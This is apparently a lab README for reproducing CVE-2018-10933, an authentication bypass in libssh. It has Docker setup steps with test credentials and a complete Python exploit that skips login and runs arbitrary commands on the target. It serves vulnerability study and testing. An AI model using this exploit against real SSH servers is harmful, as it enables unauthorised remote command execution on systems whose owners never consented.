 # libssh Authentication Bypass Vulnerability(CVE-2018-10933)

[中文版本(Chinese version)](README.zh-cn.md)

libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side. A logic vulnerability was found in libssh's server-side state machine. The attacker can send the `MSG_USERAUTH_SUCCESS` message before the authentication succeed. That can bypass the authentication and access the target SSH server.


Refer:

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

----------

## Setup

Start the environment:

```
docker-compose up -d
```

After the environment is started, we can connect the `your-ip:2222` port (account password: `myuser:mypassword`), which is a legal ssh login:

![](1.png)

## Expliot

Referring to the POC given in https://www.seebug.org/vuldb/ssvid-97614, we can use the following script to proof the vulnerability.

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

```

You can execute arbitrary commands on the target server like following:

![](2.png)
